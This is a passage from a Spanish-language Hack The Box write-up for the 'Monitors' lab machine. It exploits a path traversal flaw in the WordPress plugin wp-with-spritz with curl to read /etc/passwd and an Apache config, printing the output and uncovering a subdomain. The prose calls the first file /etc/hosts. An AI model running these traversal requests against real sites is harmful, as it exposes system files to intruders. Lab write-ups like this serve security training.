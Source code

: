 Probamos a listar el `/etc/hosts` de la maquina victima y nos lo muestra con exito.

```bash
❯ curl -s -X GET "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false
```

Como sabemos que el servicio usa `apache`, podemos trata de listar el `000-default.conf` y tratar de filtrar información.

```bash
❯ curl -s -X GET "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-enabled/000-default.conf"
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
```

Vemos que existe otro `subdominio`, asi que procederemos a agregarlo tambien a nuestro `/etc/hosts`.

```bash
❯ echo "10.10.10.238 cacti-admin.monitors.htb" >> /etc/hosts
```

